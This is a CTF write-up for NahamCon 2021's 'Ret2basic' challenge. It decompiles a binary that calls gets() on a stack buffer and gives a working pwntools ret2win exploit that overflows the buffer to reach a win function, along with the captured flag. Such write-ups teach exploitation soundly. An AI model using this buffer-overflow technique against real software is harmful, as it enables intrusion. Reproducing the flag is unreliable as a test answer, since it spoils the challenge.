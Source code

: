 # NahamCon CTF 2021

## Ret2basic [easy]

> Author: @M_alpha#3534
>
> Can you ret2win? 
>
> [ret2basic](ret2basic)

Tags: _pwn_ _x86-64_ _bof_ _rop_ _ret2win_


## Summary

_Very_ basic _ret2win_.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

No PIE and no canary, ripe for _rop_ and _bof_.

### Decompile with Ghidra

```c
void vuln(void)
{
  char local_78 [112];
  
  printf("Can you overflow this?: ");
  gets(local_78);
  return;
}
```

Yeah, so, _gets_.

From `man gets`:

> Never  use `gets()`.  Because it is impossible to tell without knowing the data in advance how many characters `gets()` will
       read, and because `gets()` will continue to store characters past the end of the buffer, it is extremely dangerous to use.
       It has been used to break computer security.  Use `fgets()` instead.
       
From `gcc` (without `-Wall` :-):

```
foo.c:(.text+0x39): warning: the `gets' function is dangerous and should not be used.
```

> _Always_ use `-Wall` and _always_ heed it's advice.

The buffer `local_78` is `0x78` bytes from the return address, so write `0x78` bytes of garbage followed by the `win` function:

```c
void win(void)
{
  FILE *__stream;
  long lVar1;
  char *__s;
  
  __stream = fopen("flag.txt","r");
  if (__stream == (FILE *)0x0) {
    puts("Failed to open the flag file.");
    exit(1);
  }
  fseek(__stream,0,2);
  lVar1 = ftell(__stream);
  rewind(__stream);
  __s = (char *)malloc((long)(int)lVar1);
  if (__s == (char *)0x0) {
    puts("Failed to allocate memory.");
    exit(1);
  }
  fgets(__s,(int)lVar1,__stream);
  fclose(__stream);
  puts("Here\'s your flag.");
  puts(__s);
  free(__s);
  exit(0);
}
```

With `win`, there's really nothing to do, but _win_.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./ret2basic')

if args.REMOTE:
    p = remote('challenge.nahamcon.com', 30551)
else:
    p = process(binary.path)

payload  = b''
payload += 0x78 * b'A'
payload += p64(binary.sym.win)

p.sendlineafter('?: ',payload)
p.stream()
p.close()
```

Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/nahamconctf2021/ret2basic/ret2basic'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to challenge.nahamcon.com on port 30551: Done
Here's your flag.
flag{d07f3219a8715e9339f31cfbe09d6502}
```

